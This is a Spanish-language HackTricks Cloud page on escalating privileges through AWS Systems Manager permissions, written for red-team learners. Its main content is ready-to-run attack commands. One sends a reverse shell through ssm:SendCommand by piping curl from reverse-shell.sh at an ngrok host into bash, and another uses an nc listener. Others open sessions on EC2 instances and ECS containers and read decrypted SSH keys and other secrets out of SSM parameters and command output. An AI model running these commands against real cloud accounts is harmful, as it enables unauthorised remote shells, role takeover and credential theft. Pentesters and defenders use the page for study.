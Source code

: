 # AWS - SSM Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## SSM

Para más información sobre SSM, consulta:

{% content-ref url="../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/" %}
[aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum](../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/)
{% endcontent-ref %}

### `ssm:SendCommand`

Un atacante con el permiso **`ssm:SendCommand`** puede **ejecutar comandos en instancias** que ejecutan el Amazon SSM Agent y **comprometer el IAM Role** que se ejecuta dentro de él.
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/4.tcp.ngrok.io:16084 | bash"
```
En caso de que estés utilizando esta técnica para escalar privilegios dentro de una instancia EC2 ya comprometida, podrías simplemente capturar el rev shell localmente con:
```bash
# If you are in the machine you can capture the reverseshel inside of it
nc -lvnp 4444 #Inside the EC2 instance
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/127.0.0.1:4444 | bash"
```
**Impacto Potencial:** Privesc directo a los roles IAM de EC2 adjuntos a instancias en ejecución con agentes SSM en funcionamiento.

### `ssm:StartSession`

Un atacante con el permiso **`ssm:StartSession`** puede **iniciar una sesión similar a SSH en instancias** que ejecutan el agente Amazon SSM y **comprometer el rol IAM** que se ejecuta dentro de él.
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm start-session --target "$INSTANCE_ID"
```
{% hint style="danger" %}
Para iniciar una sesión, necesitas tener instalado el **SessionManagerPlugin**: [https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html](https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html)
{% endhint %}

**Impacto Potencial:** Privesc directo a los roles de IAM de EC2 adjuntos a instancias en ejecución con SSM Agents en funcionamiento.

#### Privesc a ECS

Cuando las **tareas de ECS** se ejecutan con **`ExecuteCommand` habilitado**, los usuarios con suficientes permisos pueden usar `ecs execute-command` para **ejecutar un comando** dentro del contenedor.\
Según [**la documentación**](https://aws.amazon.com/blogs/containers/new-using-amazon-ecs-exec-access-your-containers-fargate-ec2/), esto se hace creando un canal seguro entre el dispositivo que usas para iniciar el comando “_exec_” y el contenedor objetivo con SSM Session Manager. (SSM Session Manager Plugin necesario para que esto funcione)\
Por lo tanto, los usuarios con `ssm:StartSession` podrán **obtener un shell dentro de las tareas de ECS** con esa opción habilitada simplemente ejecutando:
```bash
aws ssm start-session --target "ecs:CLUSTERNAME_TASKID_RUNTIMEID"
```
![](<../../../.gitbook/assets/image (185).png>)

**Impacto Potencial:** Privesc directo a los roles de `ECS`IAM adjuntos a tareas en ejecución con `ExecuteCommand` habilitado.

### `ssm:ResumeSession`

Un atacante con el permiso **`ssm:ResumeSession`** puede re-**iniciar una sesión similar a SSH en instancias** que ejecutan el Agente SSM de Amazon con un estado de sesión SSM **desconectado** y **comprometer el Rol IAM** que se ejecuta dentro de él.
```bash
# Check for configured instances
aws ssm describe-sessions

# Get resume data (you will probably need to do something else with this info to connect)
aws ssm resume-session \
--session-id Mary-Major-07a16060613c408b5
```
**Impacto Potencial:** Privesc directo a los roles de IAM de EC2 adjuntos a instancias en ejecución con agentes SSM en ejecución y sesiones desconectadas.

### `ssm:DescribeParameters`, (`ssm:GetParameter` | `ssm:GetParameters`)

Un atacante con los permisos mencionados podrá listar los **parámetros SSM** y **leerlos en texto claro**. En estos parámetros frecuentemente se puede **encontrar información sensible** como claves SSH o claves API.
```bash
aws ssm describe-parameters
# Suppose that you found a parameter called "id_rsa"
aws ssm get-parameters --names id_rsa --with-decryption
aws ssm get-parameter --name id_rsa --with-decryption
```
**Impacto Potencial:** Encontrar información sensible dentro de los parámetros.

### `ssm:ListCommands`

Un atacante con este permiso puede listar todos los **comandos** enviados y, con suerte, encontrar **información sensible** en ellos.
```
aws ssm list-commands
```
**Impacto Potencial:** Encontrar información sensible dentro de las líneas de comando.

### `ssm:GetCommandInvocation`, (`ssm:ListCommandInvocations` | `ssm:ListCommands`)

Un atacante con estos permisos puede listar todos los **comandos** enviados y **leer la salida** generada, con la esperanza de encontrar **información sensible** en ella.
```bash
# You can use any of both options to get the command-id and instance id
aws ssm list-commands
aws ssm list-command-invocations

aws ssm get-command-invocation --command-id <cmd_id> --instance-id <i_id>
```
**Impacto Potencial:** Encontrar información sensible dentro de la salida de las líneas de comando.

### Codebuild

También puedes usar SSM para acceder a un proyecto de codebuild que se está construyendo:

{% content-ref url="aws-codebuild-privesc.md" %}
[aws-codebuild-privesc.md](aws-codebuild-privesc.md)
{% endcontent-ref %}

{% hint style="success" %}
Aprende y practica Hacking en AWS:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* Revisa los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte trucos de hacking enviando PRs a los** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositorios de github.

</details>
{% endhint %}
